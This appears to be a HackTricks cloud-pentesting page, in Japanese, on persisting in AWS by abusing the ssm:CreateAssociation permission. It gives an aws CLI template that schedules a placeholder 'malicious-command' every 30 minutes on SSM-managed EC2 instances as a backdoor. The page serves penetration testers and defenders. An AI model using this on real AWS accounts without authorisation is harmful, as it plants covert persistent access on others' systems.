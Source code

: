 # AWS - SSM 永続化

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

詳細は以下を参照してください：

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### `ssm:CreateAssociation` を使用した永続化

権限 **`ssm:CreateAssociation`** を持つ攻撃者は、State Manager Association を作成して、SSM によって管理されている EC2 インスタンス上でコマンドを自動実行できます。これらの Association は固定間隔で実行するように設定でき、対話型セッションを必要としないバックドア的な永続化に適しています。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> この永続化手法は、EC2 インスタンスが Systems Manager によって管理されており、SSM エージェントが稼働していて、攻撃者に associations を作成する権限がある限り機能します。対話型セッションや明示的な ssm:SendCommand 権限は必要ありません。 **重要:** `--schedule-expression` パラメータ（例: `rate(30 minutes)`）は AWS の最小間隔 30 分を遵守する必要があります。即時または一度だけ実行する場合は、`--schedule-expression` を完全に省略してください — association は作成後に1回実行されます。

{{#include ../../../../banners/hacktricks-training.md}}
